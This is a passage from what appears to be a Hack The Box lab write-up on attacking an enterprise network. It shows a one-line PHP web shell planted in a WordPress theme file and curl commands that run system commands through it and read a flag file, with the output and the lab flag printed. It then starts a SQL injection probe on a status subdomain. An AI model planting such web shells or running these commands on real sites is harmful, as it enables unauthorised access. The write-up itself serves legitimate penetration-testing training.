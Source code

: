 ```php
<?php system($_GET['cmd']); ?>
```

```
┌──(nabla㉿kali)-[~]
└─$ curl curl http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=ls+-la+/var/www/html'

total 248
drwxr-xr-x  5 www-data www-data  4096 Jun 21  2022 .
drwxr-xr-x  1 root     root      4096 May 28  2022 ..
-rw-r--r--  1 www-data www-data   523 May 30  2022 .htaccess
-rw-r--r--  1 www-data www-data    38 Jun 21  2022 flag.txt

[SNIP]
```

```
┌──(nabla㉿kali)-[~]
└─$ curl 'http://ir.inlanefreight.local/wp-content/themes/twentytwenty/404.php?cmd=cat+/var/www/html/flag.txt'

HTB{e7134abea7438e937b87608eab0d979c}
```

#### `status.inlanefreight.local`

![Firefox - Status Subdomain Homepage](./assets/screenshots/attacking_enterprise_networks_external_testing_18.png)

```sql
'
```

![Firefox - SQL Error](./assets/screenshots/attacking_enterprise_networks_external_testing_19.png)
